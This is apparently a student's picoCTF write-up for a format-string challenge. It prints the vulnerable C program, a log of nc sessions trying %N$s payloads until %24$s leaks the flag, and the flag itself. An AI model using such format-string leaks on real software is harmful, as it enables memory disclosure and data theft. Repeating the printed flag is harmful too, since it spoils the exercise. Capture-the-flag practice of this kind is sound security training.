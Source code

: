 ***Flag:*** <br>
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
<br>
***Approaching the challenge:*** <br>
Source code:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
The datatype used in the code was fishy since the string I am inputting was stored in the variable *story* in the form of ``` %127s```. <br>
The hint said format strings, so with this hint I used AI and it explain how a ``` format string specifer``` is used in this ``` %-number-$s```. <br>
The number indicates the position in which the flag may be there since, they're stored as a **stack*** and not as a simple string variable. <br>
After multiples such tries:
```
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %1$s
Here's a story -
%1$s
w
^[[A^[[A^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %2$s
Here's a story -
$�
ok
^[[A^[[A^[[A^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> $3%s
Here's a story -
$3$3%s
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %10%s
Here's a story -
%s
nc saturn.picoctf.net 51310^[[A
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %10$s
Here's a story -
(null)
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %15$s
Here's a story -
�������
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %20$s
Here's a story -
�a*�
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %25$s
Here's a story -
�*��
^[[A^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %30$s
Here's a story -
̓ii
```
Finally got it in the 24th stack:
```
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %24$s
Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
<br>
Hence when the input is stored in such a format string, we use **%number$s** to find out which stack has the flag or desired output. It basically replicates
**%p %p %p %p %p ...... %s** <br>
The "%p" prints the memory address from the stack and the %s converts is to a string to print.
